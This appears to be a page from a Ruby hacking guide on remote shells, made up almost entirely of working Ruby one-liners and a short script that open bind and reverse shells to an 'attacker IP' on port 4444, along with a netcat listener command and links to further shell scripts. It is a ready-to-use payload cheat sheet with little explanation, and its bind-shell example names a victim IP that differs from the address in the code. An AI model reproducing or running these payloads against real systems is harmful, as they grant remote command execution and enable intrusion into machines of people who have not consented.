 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line\(shell\).

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell

from terminal

```ruby
ruby -rsocket -e's=TCPSocket.new("127.0.0.1",4444)loop{gets.chomp!;(s.close;exit!) if $_=="exit";(s.puts$_);puts s.recv_nonblock(0xFFFF) rescue nil}'
```

since `192.168.0.15` is the victim IP

## Reverse shell

Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run

```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`

```ruby
ruby -rsocket -e'exit if fork;c=TCPSocket.new("192.168.0.13",4444);loop{c.gets.chomp!;($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

if you don't want to rely on `cmd.exe`

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

## Bind and Reverse shell

This is an awesome implementation for a standalone [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by \[Hood3dRob1n\]\[3\] on GitHub . The bind shell requires authentication while reverse is not.

\[3\]: [https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)

